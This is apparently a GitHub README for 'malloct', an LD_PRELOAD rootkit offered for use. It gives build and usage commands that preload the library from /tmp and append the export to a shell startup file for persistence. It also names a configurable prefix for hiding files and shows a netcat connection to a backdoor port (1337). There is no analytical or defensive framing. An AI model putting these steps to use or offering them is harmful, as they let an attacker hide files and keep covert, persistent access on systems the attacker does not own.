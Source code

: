 # malloct
LD_PRELOAD rootkit

# make
$ make

# usage
**make your own configuration in src/config.h**

**is a core LD_PRELOAD rootkit**

**default prefix is lifeless-**

$ LD_PRELOAD=./libmalloct.so ls -aphl /home/$USER/

$ LD_PRELOAD=./libmalloct.so ls -hl /tmp/*

$ export LD_PRELOAD=/tmp/libmalloct.so

$ echo "export LD_PRELOAD=/tmp/libmalloct.so" >> /home/$USER/.kshrc

\# set to which shell you are using

# nc
**you can set custom port in src/config.h**

nc -vn 127.0.0.1 1337

# example
![image](https://github.com/user-attachments/assets/67132173-bd65-4e18-a991-8664cd155849)
